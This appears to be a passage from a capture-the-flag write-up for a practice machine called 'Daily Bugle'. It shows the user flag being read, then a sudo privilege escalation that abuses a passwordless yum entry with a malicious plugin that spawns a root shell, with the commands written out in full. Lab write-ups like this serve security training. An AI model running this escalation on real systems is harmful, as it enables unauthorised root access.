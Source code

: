 Oh! I'm user `jjameson`!

**user.txt:**
```
[jjameson@dailybugle ~]$ cat /home/jjameson/user.txt 
{Redacted}
```

### jjameson to root

**Sudo permission:**
```
[jjameson@dailybugle ~]$ sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset,
    env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME
    LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE
    LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```

**User `jjameson` can run `/usr/bin/yum` without password!**

**According to [GTFOBins](https://gtfobins.github.io/gtfobins/yum/#sudo), we can escalate to root!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Daily-Bugle/images/a10.png)

Let's copy and paste that to the target machine!

```
[jjameson@dailybugle ~]$ TF=$(mktemp -d)
[jjameson@dailybugle ~]$ cat >$TF/x<<EOF
> [main]
> plugins=1
> pluginpath=$TF
> pluginconfpath=$TF
> EOF
[jjameson@dailybugle ~]$ 
[jjameson@dailybugle ~]$ cat >$TF/y.conf<<EOF
> [main]
> enabled=1
> EOF
[jjameson@dailybugle ~]$ 
[jjameson@dailybugle ~]$ cat >$TF/y.py<<EOF
> import os
> import yum
> from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
> requires_api_version='2.1'
> def init_hook(conduit):
>   os.execl('/bin/sh','/bin/sh')
> EOF
[jjameson@dailybugle ~]$ sudo yum -c $TF/x --enableplugin=y
Loaded plugins: y
No plugin match for: y

sh-4.2# whoami;hostname;id;ip a
root
dailybugle
uid=0(root) gid=0(root) groups=0(root)
[...]
```
